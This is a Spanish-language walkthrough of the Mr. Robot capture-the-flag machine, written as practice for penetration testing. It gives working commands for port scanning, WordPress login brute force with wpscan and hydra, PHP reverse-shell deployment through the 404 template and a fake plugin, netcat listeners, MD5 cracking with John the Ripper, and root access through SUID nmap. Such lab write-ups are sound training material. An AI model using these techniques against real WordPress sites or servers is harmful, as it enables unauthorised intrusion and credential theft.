<h1 align="center">Mr. Robot CTF Walkthrough 2021</h1>

Este es un write up de la CTF Mr. Robot de la plataforma Try Hack Me (También disponible en VulnHub). Te recomiendo encarecidamente que hagas esta CTF no solo por la temática de la serie sino porque es una máquina buena para práctica y es una máquina OSCP Like. Las flags no van a ser compartidas, ni las contraseñas obtenidas.

<p align="center"></p>

En esta máquina vamos a ver dos formas (entre otras) de explotación de un servicio Wordpress a raíz de su desactualización e inseguridad, posteriormente escalaremos privilegios gracias a una versión antigua de nmap.

**Todo ello lo veremos desde la perspectiva y metodología de un test de penetración.**

- Link de la máquina: [Mr. Robot](https://tryhackme.com/room/mrrobot)
- Dificultad asignada por THM: Media
- La IP de la máquina en mi caso será: 10.10.198.171 (Tú tendrás una ip distinta así que cámbiala para todos los pasos)

¡¡Comencemos!!
#
<h1 align="center">Reconocimiento</h1>

Lo primero que haremos es escanear la máquina y ver que puertos están abiertos.
Para ello haremos uso de nmap y utilizaremos una serie de flags que hará que nuestro escaneo sea más rápido, ya que el escaneo de puertos en ciertas máquinas puede llevar bastante tiempo.

```bash
nmap -p- --open -sS -Pn --min-rate 5000 -v -n 10.10.198.171
```

La explicación del significado de cada flag es la siguiente:

- ```-p-``` : indicamos que el escaneo se hará para todos los puertos.
- ```--open``` : indicamos que solo nos interesan los puertos que estén abiertos.
- ```-sS``` : Esta flag indica que queremos hacer un "SYN Scan" lo cual significa que los paquetes que mandaremos nunca completarán las conexiones TCP y eso hará que nuestro escaneo sea mucho menos intrusivo y más silencioso.
- ```-Pn``` : Con esta opción indicamos que no queremos hacer host discovery (ya que sabemos quien es nuestro objetivo).
- ```--min-rate 5000``` : Esta flag puede ser intercambiada por ```-T5```, ambas tienen la finalidad de hacer que nuestro escaneo sea más rápido (y ruidoso...). Para ser más detallista dicha flag indica que no queremos mandar menos de 5.000 paquetes por segundo.
- ```-v``` : (verbose) Para ir viendo que puertos nos aparecen sobre la marcha.
- ```-n``` : No queremos que se nos realice resolución DNS, ya que a quien escaneamos es a una IP, no a un dominio.

Del cual obtenemos el siguiente output:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 22:23 CEST
Initiating SYN Stealth Scan at 22:23
Scanning 10.10.198.171 [65535 ports]
Discovered open port 443/tcp on 10.10.198.171
Discovered open port 80/tcp on 10.10.198.171
Completed SYN Stealth Scan at 22:24, 26.28s elapsed (65535 total ports)
Nmap scan report for 10.10.198.171
Host is up (0.045s latency).
Not shown: 65532 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
```

En este punto sabemos que hay 2 puertos abiertos: 80 (HTTP) y 443 (HTTPS), viendo esto y que el puerto SSH no está abierto (al menos al exterior), se puede deducir que la única vía de entrar en la máquina es a través de dichos servicios web.

El paso por excelencia una vez que sabemos que puertos están abiertos es realizar un análisis a esos puertos mediante la ejecución de una serie de scripts con el fin de obtener más información: versión de servidor, tecnología, posibles vulnerabilidades a priori, etc...

```bash
nmap -sV -sC -p 80,443 -Pn -n -min-rate 5000 10.10.198.171
```

Donde :

- ```-sV``` : Nos mostrará si es posible la versión del servicio que esta corriendo en cada puerto.
- ```-A``` : Ejecutaremos sobre dichos puertos todos los scripts relevantes (proporcionados por nmap).
- ```-p 80,443```: Los puertos abiertos.

Obteniendo este output:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 22:26 CEST
Nmap scan report for 10.10.198.171
Host is up (0.044s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

Para saber con qué tratamos vamos a ejecutar **WhatWeb**

```http://10.10.198.171 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.198.171], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]```

Parece que no nos ha arrojado mucha información...

Así que vamos a visitar la web... Después de una impresionante introducción muy hacker, nos encontramos con este menú.

<p align="center"></p>

Después de probar cada uno de los comandos y ver varios videos, no encontré nada relevante, por otro lado viendo el código fuente de la página podremos encontrar en la línea 15 una IP que actualmente no nos da ninguna información adicional.

En este punto conocemos las siguientes rutas:

```
/prepare
/fsociety
/inform
/question
/wakeup
/join
```

Ya que no parece haber más información a la vista, procederemos a hacer *Fuzzing*, lo cual consiste en hacer peticiones al servidor de diversas rutas extraídas de un diccionario con el objetivo de obtener rutas que existan. Para ello usaremos *Wfuzz* aunque otra potente herramienta es *Ffuf*.

```bash
wfuzz -c -L --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.198.171//FUZZ
```

- Con ffuf sería:

```bash
ffuf -u http://10.10.198.171/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200 -c -t 200
```

La salida de **Wfuzz** nos muestra varias cosas interesantes

<p align="center"></p>

Ahora sabemos que nos enfrentamos a un CMS (Sistema de gestión de contenidos), concretamente a Wordpress, ya que hay varias rutas pertenecientes a Wordpress (wp-content, wp-login, wp-includes).

Por otro lado, también existe un fichero ```robots.txt```.

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Hay dos archivos interesantes, uno parece ser la primera clave y el otro un diccionario (nos estarán sugiriendo usarlo para un ataque de fuerza bruta?).

Si accedemos a la ruta ```/key-1-of-3.txt```, podremos visualizar la primera flag.
Y si accedemos a la ruta ```fsocity.dic```, podremos descargar el diccionario.

En este archivo ya no podemos hacer nada así que vamos a enumerar un poco más y ver si hay alguna vía potencial de entrada al margen de la posible fuerza bruta al login.

También hay una ruta extraña ```/0``` vamos a ojearla..

<p align="center"></p>

Parece ser un blog... he aprovechado para consultar **Wappalyzer**, revelándonos que se trata de un Wordpress 4.3.1 y que la página emplea PHP 5.5.29.
#
<h1 align="center">Análisis de vulnerabilidades</h1>

Después de investigar de que no hay recursos de los cuales aprovecharse para inyecciones SQL o XSS, continuaremos con el diccionario que nos encontramos antes, así que accederemos a la ruta ```/wp-login```.

<p align="center"></p>

Por un lado hasta ahora no hemos encontrado ningún nombre de usuario potencial.. pero probando algunas credenciales se puede observar una vulnerabilidad...
#
<div align="center">
    
    
</div>

#
Si introducimos un usuario inválido el gestor de contenidos nos dice que el usuario es inválido, pero si introducimos uno existente nos dice que para ese usuario la contraseña es incorrecta.

Gracias a esta vulnerabilidad podríamos enumerar a posibles usuarios que se encuentren en la base de datos, pero no será necesario quien nos interesa es Elliot ( en base a la temática de la CTF se puede extrapolar una serie de nombres potenciales).

Revisando el diccionario que obtuvimos antes, pude apreciar de que existen muchas palabras repetidas cosa que hará que nuestro ataque por fuerza bruta basado en diccionario tarde más tiempo, para ello ordenaremos el diccionario y eliminaremos las líneas repetidas.

```bash
sort fsocity.dic | uniq > fsocity-sorted.dic
```
#
<h1 align="center">Explotación de vulnerabilidades</h1>

Para el ataque tenemos muchas herramientas a disposición entre ellas **Hydra**, el intruder de **BurpSuite**.. en este caso, ya que se trata de un Wordpress y de que en base a pruebas fue el que menos tardó, usaremos **WPScan**.

Ubicados en el directorio donde tenemos nuestro diccionario ejecutamos:

```bash
wpscan --url 10.10.198.171 --wp-content-dir wp-admin --usernames elliot --passwords fsocity-sorted.dic
```

<p align="center"></p>


- *Haciendo alusión al nombre de usuario, cabe mencionar que lo podríamos haber obtenido realizando fuerza bruta al campo username, con Hydra por ejemplo ```hydra -L fsocity.dic -p test 10.10.198.171 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^wp-submit=Log+In:F=Invalid username"```*

Ahora que tenemos las credenciales, nos logeamos.

<p align="center"></p>

Llegados a este punto, mostraré 2 formas de explotar este servicio Wordpress (existen otras..) y obtener una shell reversa.

- Mediante la subida de un falso plugin.
- Mediante el template 404

Y si queréis probar por vosotros mismos también se puede conseguir una shell reversa a través de la subida de una imagen en el apartado "Media", solo tendríamos que añadir a nuestro payload una cabecera con los números mágicos del formato admitido por la web y renombrar dicho payload con ese formato.
#
<h2 align="center">Template 404</h2>

Iremos a Apperance -> Editor -> Accederemos al template 404 para editarlo

El payload que emplearemos para entablar una shell reversa, lo podemos encontrar en pentestmonkey para obtenerlo en nuestra máquina podemos ejecutar:

```bash
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

Editaremos los valores ```$ip``` y ```$port``` de nuestro payload, por nuestra IP y el puerto que queramos emplear (en mi caso el puerto 443 (así nuestra conexión quedaría un poco enmascarada como una conexión perteneciente al servidor web)).

Ahora reemplazaremos el contenido del template 404 por el contenido de nuestro payload, y lo guardaremos.

<p align="center"></p>

Inciaremos un listener, ya que esperamos una conexión por parte de nuestra víctima.

```nc -lvp 443```

Y simplemente visitaremos una página aleatoria o mismamente la página ```/wp-content/themes/twentyfifteen/404.php```

Tan pronto accedamos, ya habremos obtenido una revese shell al usuario **daemon**
#
<h2 align="center">Subida de un falso plugin</h2>

Para ello accedemos a Plugins -> Add New -> Upload Plugin.

<p align="center"></p>


Podríamos emplear el payload mencionado en la anterior sección tal cual, pero no cumplirá con el formato de un plugin de WordPress.. tendremos que hacer de nuestro payload un plugin válido, para ello comenzaremos por añadir la siguiente cabecera a nuestro payload.

```
/*

Plugin Name:  Reverse Shell

Plugin URI: http://mrrobot.com

Description: Shell

Version: 1.0

Author: Shockz

Author URI: http://mrrobot.com

Text Domain: Shell

Domain Path: /languages

*/
```

Ahora necesitamos empaquetarlo todo en un zip.

```bash
sudo zip reverse.zip php-reverse-shell.php
```

Iniciaremos un listener, ya que esperamos una conexión por parte de nuestra víctima.

```nc -lvp 443```

Por último subiremos nuestro payload ```reverse.zip```

<p align="center"></p>

Pero esto no es suficiente ahora tenemos que activarlo, para ello volvemos a Plugins y clicamos en "Activate"

<p align="center"></p>

Tan pronto lo activemos, ya habremos obtenido una revese shell al usuario **daemon**

#
<h2 align="center">Continuando con la explotación</h2>

Ya sea por uno y otro método hemos conseguido una shell (o algo parecido.. ya que es una rawshell)

<p align="center"></p>

Vamos a mejorar nuestra shell y obtener una tty en condiciones

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Llegados a este punto podemos navegar por el sistema de ficheros, encontrando así el usuario **robot** ubicado en ```/home/robot```

<p align="center"></p>

En este directorio podemos encontrar 2 ficheros, la segunda flag y lo que por el nombre parece ser una contraseña encriptada en MD5.

Si intentamos ver la clave, no podremos, ya que el propietario de dicho archivo es el usuario **robot** y solo él puede leer el archivo y nada más.

<p align="center"></p>

Por otro lado sí que podemos consultar la contraseña encriptada.

Así que la copiamos a un archivo en nuestra máquina, en mi caso le llamaré ```hash```

Para desencriptarla tendremos que realizar otro ataque de fuerza bruta, esta vez usaremos **John The Ripper** y el diccionario ````rockyou```

```bash
john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```

<p align="center"></p>

Obteniendo la contraseña para el usuario **robot**

Ahora en la shell cambiamos de usuario e introducimos las credenciales

```bash
su robot
```

Ahora siendo el usuario **robot** podremos visualizar la 2º flag.

#
<h1 align="center">Escalación de privilegios</h1>

Lo primero que probé fue si podía ejecutar algún comando con sudo (```sudo -l```). Así que mi segundo paso fue tratar de abusar de algún SUID, para ello ejecutamos el siguiente comando:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null
```

<p align="center"></p>

Lo que destaca ahí es ```/usr/local/bin/nmap```.

Podemos consultar en [GTFOBins](https://gtfobins.github.io) la foma de abusar de dicha *capability*.

Como nuestra finalidad es obtener ejecución de comandos como superusuario, encontramos este método.

<p align="center"></p>

donde nos figura que solo está disponible para versiones de nmap entre 2.02 a 5.21, así que comprobamos nuestra versión.

```
nmap -V

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

Como es válida, procedemos a abusar de dicho SUID.

<p align="center"></p>

Finalmente conseguimos una rawshell como root, ahora solo debemos visualizar la última flag en ```/root/key-3-of-3.txt```

<p align="center"></p>
